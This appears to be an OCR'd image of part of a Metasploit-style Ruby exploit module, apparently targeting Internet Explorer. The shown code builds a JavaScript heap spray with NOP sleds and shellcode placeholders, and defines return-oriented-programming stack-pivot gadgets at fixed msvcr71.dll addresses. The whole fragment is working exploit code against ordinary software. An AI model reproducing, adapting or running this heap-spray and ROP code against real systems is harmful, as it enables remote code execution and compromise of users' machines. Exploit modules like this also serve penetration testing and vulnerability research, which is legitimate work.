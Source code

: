       var heap_obj = new heapLib.ie(0x10000);

      var code = unescape("#{js_code}");
      var nops = unescape("#{js_nops}");
      var nops_90 = unescape("#{js_90_nops}");
      var counter = unescape("#{js_counter}");
      var stack_pivot = unescape("#{js_stack_pivot}")

      while (nops_90.length < 0x80000) nops_90 += nops_90;

      for (var i=0; i <  #{t['SprayBlocks']}; i++) {
       var padding = unescape(tounescape(randomblock(0x1000)));
       while (padding.length < 0x1000) padding+= padding;


       var offset = padding.substring(0, #{t['SprayNops']});
       var offset_2 = padding.substring(0, #{t['SprayCounter']} - offset.length - nops.length);
       var offset_4 = padding.substring(0, #{t['SprayOffset']} - offset.length -  nops.length - offset_2.length - counter.length - nops.length - stack_pivot.length);
       var block_used = code.length + offset_4.length + stack_pivot.length + nops.length + counter.length + offset_2.length + nops.length + offset.length;
       var single_sprayblock = offset + nops + offset_2 + counter + nops  + stack_pivot + offset_4 + code + padding.substring(0, 0x800 - block_used);

       while (single_sprayblock.length < 0x20000) single_sprayblock += single_sprayblock;
       sprayblock = single_sprayblock.substring(0, (0x40000-6)/2);
       heap_obj.alloc(sprayblock);
      }

      JS

      return spray
     end


     def junk(n=4)
      return rand_text_alpha(n).unpack("V").first
     end

     def nop
      return make_nops(4).unpack("V").first
     end

     # stackpivot from msvcr71.dll
     def get_stack_pivot_stage_1
      rop = [ 0x7c341ae4 ].pack("V*") # ADD ESP,48 # RETN
      return rop
     end

     # stackpivot from msvcr71.dll
     def get_stack_pivot_stage_2
      rop = [
       0x7c3522ca,  # ADD EAX,20 # RETN
       0x7c348b05,  # XCHG EAX,ESP # RETN
      ].pack("V*")
      rop = rop.gsub(/"/, "\\\"")
      return rop
     end
